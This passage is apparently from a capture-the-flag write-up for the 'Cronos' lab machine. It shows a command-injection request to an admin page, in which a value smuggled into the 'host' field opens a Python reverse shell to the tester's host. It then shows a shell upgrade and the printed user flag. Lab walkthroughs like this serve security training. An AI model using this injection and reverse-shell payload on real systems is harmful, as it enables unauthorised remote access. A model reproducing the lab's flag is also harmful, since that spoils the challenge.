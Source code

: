 we input Full test on the blank and click Execute

![[Cronos-13.png]]

![[Cronos-12.png]]
```txt
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
Content-Length: 361
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://admin.cronos.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://admin.cronos.htb/welcome.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=95i4qrjjkropoj5p9bi462v200
Connection: close

command=traceroute&host=8.8.8.8+%26+python+-c+%27import+socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.14%22%2C3333%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B+os.dup2%28s.fileno%28%29%2C1%29%3B+os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27
```
we will find command will be automatically encoded by webserver.

And we will get webserver, and we upgrade this shell by:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![[Cronos-14.png]]

Grab the user flag.

```bash
cat /home/noulis/user.txt
# flag
658cdab61706f29812758529cb5a9174
```

![[Cronos-15.png]]

# Privilege Escalation

## Enumerate
